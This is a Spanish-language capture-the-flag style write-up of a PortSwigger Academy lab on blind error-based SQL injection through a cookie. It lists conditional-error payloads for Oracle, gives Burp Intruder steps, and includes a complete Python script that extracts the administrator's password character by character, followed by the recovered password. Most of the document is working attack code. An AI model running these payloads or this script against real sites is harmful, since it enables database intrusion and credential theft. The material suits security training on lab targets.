


```c
'
```

1. Visite la página principal de la tienda y utilice Burp Suite para interceptar y modificar la solicitud que contiene la `TrackingId`cookie. Para simplificar, supongamos que el valor original de la cookie es `TrackingId=xyz`.
2. Modifique la `TrackingId`cookie, añadiéndole una comilla simple:
    
    `TrackingId=xyz'`
    
    Verifique que se reciba un mensaje de error.
    
3. Ahora cámbielo por dos comillas:`TrackingId=xyz''`Verifique que el error desaparezca. Esto sugiere que un error de sintaxis (en este caso, las comillas sin cerrar) está teniendo un efecto detectable en la respuesta.
4. Ahora debe confirmar que el servidor está interpretando la inyección como una consulta SQL, es decir, que el error es un error de sintaxis SQL y no cualquier otro tipo de error. Para ello, primero debe construir una subconsulta utilizando una sintaxis SQL válida. Intente enviar:
    
    `TrackingId=xyz'||(SELECT '')||'`
    
    En este caso, observe que la consulta sigue pareciendo no válida. Esto puede deberse al tipo de base de datos: intente especificar un nombre de tabla predecible en la consulta:
    
    `TrackingId=xyz'||(SELECT '' FROM dual)||'`
    
    Como ya no recibe un error, esto indica que el destino probablemente esté usando una base de datos Oracle, que requiere que todas `SELECT`las declaraciones especifiquen explícitamente un nombre de tabla.
    
5. Ahora que ha creado lo que parece ser una consulta válida, intente enviar una consulta no válida conservando al mismo tiempo la sintaxis SQL válida. Por ejemplo, intente consultar un nombre de tabla inexistente:
    
    `TrackingId=xyz'||(SELECT '' FROM not-a-real-table)||'`
    
    Esta vez, se devuelve un error. Este comportamiento sugiere claramente que el back-end está procesando la inyección como una consulta SQL.
    
6. Siempre que se asegure de inyectar siempre consultas SQL sintácticamente válidas, puede utilizar esta respuesta de error para inferir información clave sobre la base de datos. Por ejemplo, para verificar que la `users`tabla existe, envíe la siguiente consulta:
    
    `TrackingId=xyz'||(SELECT '' FROM users WHERE ROWNUM = 1)||'`
    
    Como esta consulta no devuelve ningún error, se puede inferir que esta tabla existe. Tenga en cuenta que la `WHERE ROWNUM = 1`condición es importante aquí para evitar que la consulta devuelva más de una fila, lo que interrumpiría nuestra concatenación.
    
7. También puedes aprovechar este comportamiento para probar las condiciones. Primero, envía la siguiente consulta:
    
    `TrackingId=xyz'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'`
    
    Verifique que se reciba un mensaje de error.
    
8. Ahora cámbialo a:
    
    `TrackingId=xyz'||(SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'`
    
    Verifique que el error desaparezca. Esto demuestra que puede generar un error de manera condicional en función de la verdad de una condición específica. La `CASE`declaración prueba una condición y evalúa una expresión si la condición es verdadera y otra expresión si la condición es falsa. La primera expresión contiene una división por cero, lo que genera un error. En este caso, las dos cargas útiles prueban las condiciones `1=1`y `1=2`, y se recibe un error cuando la condición es `true`.
    
9. Puede utilizar este comportamiento para comprobar si existen entradas específicas en una tabla. Por ejemplo, utilice la siguiente consulta para comprobar si `administrator`existe el nombre de usuario:
    
    `TrackingId=xyz'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'`
    
    Verificar que la condición sea verdadera (se recibe el error), confirmando que hay un usuario llamado `administrator`.
    
10. El siguiente paso es determinar cuántos caracteres tiene la contraseña del `administrator`usuario. Para ello, cambie el valor a:
    
    `TrackingId=xyz'||(SELECT CASE WHEN LENGTH(password)>1 THEN to_char(1/0) ELSE '' END FROM users WHERE username='administrator')||'`
    
    Esta condición debe ser verdadera, lo que confirma que la contraseña tiene más de 1 carácter.
    
11. Envía una serie de valores de seguimiento para probar distintas longitudes de contraseña. Enviar:
    
    `TrackingId=xyz'||(SELECT CASE WHEN LENGTH(password)>2 THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'`
    
    A continuación, enviar:
    
    `TrackingId=xyz'||(SELECT CASE WHEN LENGTH(password)>3 THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'`
    
    Y así sucesivamente. Puedes hacerlo manualmente usando [Burp Repeater](https://portswigger.net/burp/documentation/desktop/tools/repeater) , ya que es probable que la longitud sea corta. Cuando la condición deja de ser verdadera (es decir, cuando el error desaparece), has determinado la longitud de la contraseña, que en realidad tiene 20 caracteres.
    
12. Después de determinar la longitud de la contraseña, el siguiente paso es probar el carácter en cada posición para determinar su valor. Esto implica una cantidad mucho mayor de solicitudes, por lo que debe utilizar [Burp Intruder](https://portswigger.net/burp/documentation/desktop/tools/intruder) . Envíe la solicitud en la que está trabajando a Burp Intruder, utilizando el menú contextual.
13. En la pestaña Posiciones de Burp Intruder, cambie el valor de la cookie a:
    
    `TrackingId=xyz'||(SELECT CASE WHEN SUBSTR(password,1,1)='a' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'`
    
    Esto utiliza la `SUBSTR()`función para extraer un solo carácter de la contraseña y probarlo con un valor específico. Nuestro ataque recorrerá cada posición y valor posible, probando cada uno de ellos por turno.
    
14. Coloque marcadores de posición de carga útil alrededor del carácter final `a`en el valor de la cookie. Para ello, seleccione solo el `a`y haga clic en el botón "Agregar §". Entonces debería ver lo siguiente como el valor de la cookie (observe los marcadores de posición de carga útil):
    
    `TrackingId=xyz'||(SELECT CASE WHEN SUBSTR(password,1,1)='§a§' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'`
15. Para probar el carácter en cada posición, deberá enviar las cargas útiles adecuadas en la posición de carga útil que haya definido. Puede suponer que la contraseña contiene solo caracteres alfanuméricos en minúscula. Vaya a la pestaña Cargas útiles, verifique que esté seleccionada la opción "Lista simple" y, en "Configuración de carga útil", agregue las cargas útiles en el rango a - z y 0 - 9. Puede seleccionarlas fácilmente utilizando el menú desplegable "Agregar de la lista".
16. Inicie el ataque haciendo clic en el botón "Iniciar ataque" o seleccionando "Iniciar ataque" en el menú Intruso.
17. Revise los resultados del ataque para encontrar el valor del carácter en la primera posición. La aplicación devuelve un código de estado HTTP 500 cuando se produce el error y un código de estado HTTP 200 normalmente. La columna "Estado" en los resultados de Intruder muestra el código de estado HTTP, por lo que puede encontrar fácilmente la fila con 500 en esta columna. La carga útil que se muestra para esa fila es el valor del carácter en la primera posición.
18. Ahora, simplemente tienes que volver a ejecutar el ataque para cada una de las otras posiciones de caracteres en la contraseña, para determinar su valor. Para ello, vuelve a la ventana principal de Burp y a la pestaña Posiciones de Burp Intruder, y cambia el desplazamiento especificado de 1 a 2. Entonces deberías ver lo siguiente como el valor de la cookie:
    
    `TrackingId=xyz'||(SELECT CASE WHEN SUBSTR(password,2,1)='§a§' THEN TO_CHAR(1/0) ELS`

Teniendo en cuenta todo lo anterior haremos un script en python para obtener la contraseña

```python
import requests
from pwn import * 

#Cookie: TrackingId=cUnp1Gkl2HtZ4Jyi; session=dkPDdDnDrJzIT2wJYQGR2CYgbeWn2sMh
host='0a5f00260317a2598084080f008000f7.web-security-academy.net'
letters='abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789!#$&\()*+-/<=>?@[\\]^_{|}~'
session='vatnhheubjCkJQiDU81szcO7Kn9xoG7A'
TrackingId='0Ae80vwaBWjKDDF2'
url_main=f'https://{host}'
url_request=f'{url_main}/filter?category=Gifts'

#payload = "cUnp1Gkl2HtZ4Jyi' AND (SELECT SUBSTR(schema_name,1,1) FROM information_schema.schemata='u')"

def ctrl_C(signal, frame):
    print('[+] exit')
    exit(1)

def valid_sql_injection():
    payload = "%s' order by 1--" % (TrackingId)
    return send_request(payload)


def get_name_credentials(letters):
    if valid_sql_injection:
        p1=log.progress('Brute Force')
        p2=log.progress('Password')
        password=''
        start=1
        while True:
            for word in letters:
                payload = "%s' ||(SELECT CASE WHEN SUBSTR(password,%d,1)='%s' THEN to_char(1/0) ELSE '' END FROM users WHERE username='administrator')||'" %(TrackingId,start,word)
                p1.status('Postition: %d Letters: %s' % (start, word))
                if send_request(payload):
                    password+=word
                    break
                p2.status('%s' % (password))
            if len(password)!=start:
                break
            start+=1

    else:
        print('[+] Error, sql injection not found ')

def send_request(payload):
    
    cookies = {
          'TrackingId': payload,
          'session': session
          }
    #' AND (SELECT ASCII(SUBSTRING(database(),{i},1)))={j}--
    headers = {
          'Host':host ,
          'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0',
          'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8',
          'Accept-Language': 'es-ES,es;q=0.5',
          'Accept-Encoding': 'gzip, deflate, br',
          'Dnt': '1',
          'Referer': url_request,
          'Upgrade-Insecure-Requests': '1',
          'Sec-Fetch-Dest': 'document',
          'Sec-Fetch-Mode': 'navigate',
          'Sec-Fetch-Site': 'same-origin',
          'Sec-Fetch-User': '?1',
          'Te': 'trailers'
          }
    try:

        response = requests.get(url_request,headers=headers, cookies=cookies)
        
        if response.status_code==500:
            return True
        else:
            return False
    except requests.exceptions.RequestException as e:
        #print(f"An error occurred: {e}")
        return False
        


if __name__ == "__main__":
    signal.signal(signal.SIGINT,ctrl_C)
    get_name_credentials(letters)
```

Al final podemos ejecutar el script y tendremos nuestra contraseña del usuario administrador

```c
yi2lzo8bph1peaihz9jh
```

